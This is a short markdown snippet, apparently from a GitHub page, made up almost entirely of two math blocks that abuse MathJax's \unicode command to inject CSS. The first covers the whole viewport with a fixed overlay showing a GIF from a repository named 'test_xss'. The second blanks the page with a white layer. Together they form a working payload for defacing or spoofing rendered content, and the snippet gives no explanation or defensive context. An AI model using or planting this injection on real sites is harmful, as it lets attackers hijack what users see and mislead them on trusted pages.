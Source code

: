 ```math
\ce{$&#x5C;unicode[; color:red; pointer-events: none; z-index: 100; position: fixed; top: 0; left: 0; height: 100vw; width: 100vw; background-repeat: no-repeat; background-size: contain; background-position: center top; background-image: url('https://github.com/pedestrianlove/test_xss/blob/main/nothing-to-see-here.gif?raw=true');]{x0000}$}

```math
\ce{$&#x5C;unicode[; color:red; pointer-events: none; z-index: 99; position: fixed; top: 0; left: 0; height: 180vh; width: 100vw; background: white;]{x0000}$}
